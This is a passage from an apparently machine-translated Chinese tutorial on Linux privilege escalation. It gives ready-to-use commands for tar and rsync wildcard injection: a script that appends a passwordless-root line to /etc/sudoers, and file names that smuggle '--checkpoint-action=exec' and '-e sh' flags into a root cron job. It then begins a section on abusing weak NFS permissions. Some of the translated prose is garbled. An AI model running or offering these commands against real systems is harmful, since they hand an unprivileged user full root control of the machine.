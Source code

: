 **2**）编写恶意的 ****Shell**** 脚本

Shell 脚本将 / etc/sudoers 在其后追加代码，这会使您变得更加无礼。

您需要添加到的行 / etc/sudoers 是 my-user ALL=(root) NOPASSWD: ALL。

让我们创建 shell 脚本：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > demo.sh

Shell 脚本应与通配符位于同一目录中。

请注意，我们将必须更改 my-user 为要成为 sudoer 的实际用户。

**3**）注入一个指定检查点动作的标志

现在，我们将指定，当 tar 到达在步骤＃1 中指定的检查点时，它应运行在步骤＃2 中创建的 shell 脚本：

touch — “—checkpoint-action=exec=sh demo.sh”

**4**）**root**

等待，直到 cron 执行了脚本并通过键入以下内容获得 root 特权：

sudo su

### rsync

Rsync 是 “快速，通用，远程（和本地）文件复制工具”，在 linux 系统上非常常见。

与 rsync 一起使用的一些有趣的标志是：

-e, —rsh=COMMAND           specify the remote shell to use     —rsync-path=PROGRAM    specify the rsync to run on remote machine

我们可以使用该 - e 标志来运行所需的任何 Shell 脚本。让我们创建一个 shell 脚本，它将我们添加到 sudoers 文件中：

echo ‘echo “my-user ALL=(root) NOPASSWD: ALL” >> /etc/sudoers’ > shell.sh

现在让我们注入将运行我们的 shell 脚本的标志：

touch — “-e sh shell.sh”

**0x0010 Linux 提权 - NFS 权限弱**
-----------------------------

如果您在 linu 服务器上具有低特权 shell，并且发现服务器中具有 NFS 共享，则可以使用它来升级特权。但是成功取决于它的配置方式。

### 目录

1.  什么是 NFS？
    
2.  什么是 root_sqaush 和 no_root_sqaush？
    
3.  所需的工具和程序文件。
    
4.  利用 NFS 弱权限。
    

### 什么是 NFS？

网络文件系统（**NFS**）是一个客户端 / 服务器应用程序，它使计算机用户可以查看和选择存储和更新远程计算机上的文件，就像它们位于用户自己的计算机上一样。在 **NFS** 协议是几个分布式文件系统标准，网络附加存储（NAS）之一。
